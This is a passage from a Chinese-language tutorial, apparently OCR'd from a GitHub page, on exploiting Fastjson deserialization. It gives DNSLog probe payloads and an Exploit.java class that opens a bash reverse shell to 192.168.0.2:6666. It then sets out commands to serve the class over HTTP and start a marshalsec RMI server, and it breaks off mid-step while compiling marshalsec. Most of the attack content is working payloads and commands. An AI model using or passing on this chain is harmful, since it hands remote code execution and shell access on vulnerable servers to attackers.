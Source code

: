     

    1.2.67 版本后 payload：

    ```

    {"@type":"java.net.Inet4Address","val":"dnslog"}
    {"@type":"java.net.Inet6Address","val":"dnslog"}
    # 畸形：
    {"@type":"java.net.InetSocketAddress"{"address":,"val":"这里是dnslog"}}
    ```

* 利用

    编译一个Exploit.java

    ```java

    public class Exploit {
        public Exploit(){
            try{
                Runtime.getRuntime().exec("/bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/192.168.0.2/6666 0>&1");
            }catch(Exception e){
                e.printStackTrace();
            }
        }
        public static void main(String[] argv){
            Exploit e = new Exploit();
        }
    }
    ```

    用python开启一个web服务：

    ```python

    python2 -m SimpleHTTPServer 6969
    ```

    再用marshalsec文件开启一个rmi服务：

    ```s

    java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.110.133:6969/#Exploit" 6799
    ```

* 编译并开启RMI服务：

    下载marshalsec：

    `git clone https://github.com/mbechler/marshalsec.git`
    
    安装maven：

    `apt-get install maven`
    
    使用maven编译marshalsec成jar包，先进入下载的marshalsec文件中：
